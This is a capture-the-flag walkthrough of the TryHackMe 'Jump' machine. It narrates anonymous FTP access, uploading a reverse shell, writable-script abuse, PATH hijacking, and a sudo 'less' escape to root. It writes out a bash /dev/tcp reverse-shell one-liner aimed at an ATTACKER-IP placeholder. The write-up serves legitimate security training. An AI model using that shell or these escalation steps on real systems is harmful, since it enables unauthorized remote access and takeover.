

# THM– Jump Walkthrough

In this walkthrough, I will demonstrate how to solve the Jump machine on Try Hack Me.

The main objective of this room is to gain initial access to the target machine, escalate privileges from a normal user to root, and understand the techniques used throughout the process.

The room focuses on privilege escalation and requires us to investigate the system carefully to identify potential weaknesses.

Let's get started!

________________________________________________________________________________________

first of we need to see which services are available,to gather some info about

we used Nmap:

`nmap -T4 -Pn Lab-IP`



and we found 2 available services the FTP(File Transfare Protocol) and ssh (secure shell)

it's a good start, one of most ftp missconfig is the anonymous login let's check it:



incrediable now let's see what we can find here.

okay we found 2 dir "incoming" and "pub"



incoming an empty dir, but in pub we found a "README.txt" and another 2 empty dirs



then we used mget * to get  the file



finalllyy a lead, an interesting message inside "README.txt"



it says that any file in incoming dir it will be processed automatically so here i ve got an idea, let's make a reverseshell and recieve a connection...:



now after we made the reverse shell lets upload it to the "**incoming**" dir



listtining for the connection



and after a very short while, we got the connection

and the first flag, 4 to go



okay now we start to escalate our prvlg



the next flag is in the dev_user home dir  but  first we need to take his prvlg lets to save ur time i searched for **suid** and i used **linpeas.sh**

let's use pspy:

this tool will check for process that works in the bakcground ,it doesn't take a snapshoot, it use real time cheacking,u can download it from here :

https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64s

okay now after downloading it we have to transfare it to the lab machine 
u can use anyway u want, but ill used python server  and wget to grap the file to the lab machine

after runinng it that is the result :



there is a lot we can check but first, we know that dev_user is 1002 according to the  id command result so let's start with it and see what we can do and our permissions on it





niceee, we can write on it, let's add this payload(reverssshellll)

`bash -i >& /dev/tcp/ATTACKER-IP/3090 0>&1'`



okay now lets start our listtener at the same port we specf .



another flag captured, three left

now the third  flag found in the monitor_user’s home directory.

let's keep up the hard work.

we said earlier we gonna check for the other process work in the bg

let's check for 

CMD: UID=1003  PID=3970   | /bin/bash /usr/local/bin/healthcheck



okay we can see that the service healthcheck runs the ps command without specifying its full path

what does that mean,,,,,of course path hijacking

actually here i did it in two ways first one :



and the second one was from the hint Create a new binary at /opt/dev/bin/ps:



at the end we reached our goal, and u can use whatever u want.



now after reaching our third flag and third user(monitor_user)

let's see what we can do with this account



okay first i found this bash file then printed it we can see that it calls another bash file , i searched for the full path of the .sh file  then saw the permissions we can write on it the idea hear to write to it  the same payload as each time then run it as 

**ops_user**





and the FINNAAALLLYY THE BIGBOSS::)) the easiest one!!

we found less

The `less` command in Linux is used to **view the contents of a file one page at a time** without modifying it.

of course there is another way we can use one of them using 
[less | GTFOBins](https://gtfobins.org/gtfobins/less/)

but that what did i do



# Conclusion

And that's it! We finally managed to compromise the Jump machine and capture all the flags.

This machine was a great opportunity to practice different Linux privilege escalation techniques, starting with FTP misconfigurations and automated file processing, moving through writable scripts and PATH Hijacking, and finally abusing a misconfigured `less` permission to obtain root access.

What made this machine interesting wasn't just getting the flags, but understanding how small misconfigurations can lead to a complete system compromise.

A special lesson from this machine: **Always investigate what runs in the background, check file permissions carefully, and never underestimate seemingly harmless commands.**

I hope you enjoyed this walkthrough and learned something useful along the way.

Thanks for reading, and see you in the next walkthrough!

**Happy Hacking! 🚩**

**Small Note:** I apologize for any spelling or grammatical mistakes throughout this walkthrough. I'm still improving my technical writing, and I appreciate your understanding. Any feedback or corrections are always welcome!
